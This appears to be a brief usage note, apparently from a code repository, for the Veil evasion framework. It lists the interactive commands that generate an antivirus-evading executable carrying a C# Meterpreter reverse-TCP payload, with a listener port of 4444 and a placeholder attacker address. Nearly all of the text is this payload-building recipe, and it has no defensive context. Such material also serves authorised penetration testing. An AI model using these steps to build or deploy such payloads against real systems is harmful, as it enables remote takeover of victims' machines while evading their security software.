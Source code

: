Veil Simple Usage

# Veil Simple Usage

Generate exe:
```
$ veil
> use 1 (evasion)
> use 11 (cs/meterpreter/rev_tcp)
> set LPORT 4444
> set LHOST x.x.x.x
> set use ARYA y
> generate
$ ls /var/lib/veil/output/compiled/
```